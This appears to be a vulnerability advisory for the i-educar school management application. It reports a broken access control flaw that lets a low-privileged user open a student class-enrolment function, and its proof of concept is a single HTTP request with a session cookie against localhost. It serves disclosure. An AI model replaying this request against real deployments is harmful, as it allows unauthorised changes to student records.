 Broken Access Control  in /matricula/[ID_STUDENT]/enturmar/[ID_CLASS]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/matricula/[ID_STUDENT]/enturmar/[ID_CLASS]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /matricula/[ID_STUDENT]/enturmar/[ID_CLASS]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
![[Pasted image 20250821190942.png]]
![[Pasted image 20250821191019.png]]
    
2. Send the following request::

```
GET /matricula/206/enturmar/23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_turma_lst.php?ref_cod_matricula=206&ano_letivo=2025
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to sign students from classes. And, this user, should not do that.

![[Pasted image 20250821222850.png]]

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

This vulnerability falls under **OWASP Top 10 - A01:2021 Broken Access Control**  
🔗 OWASP Documentation